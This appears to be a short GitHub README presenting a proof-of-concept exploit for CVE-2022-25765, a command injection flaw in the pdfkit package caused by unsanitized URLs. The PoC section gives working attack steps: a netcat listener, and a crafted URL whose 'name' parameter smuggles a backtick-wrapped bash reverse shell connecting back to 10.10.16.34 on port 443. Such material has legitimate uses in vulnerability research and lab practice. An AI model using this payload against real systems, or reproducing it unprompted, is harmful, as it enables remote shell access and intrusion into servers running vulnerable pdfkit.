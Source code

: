 # PDFkit-CMD-Injection
 CVE-2022-25765 Detail

Description
The package pdfkit from 0.0.0 are vulnerable to Command Injection where the URL is not properly sanitized.



# PoC

python3 -m http.server 80

nc -lnvp 'Target Port'

http://'TARGET_ADDRESS:Target PORT'//?name=#{'%20`bash -c 'exec bash -i &>/dev/tcp/10.10.16.34/443 <&1'`'}
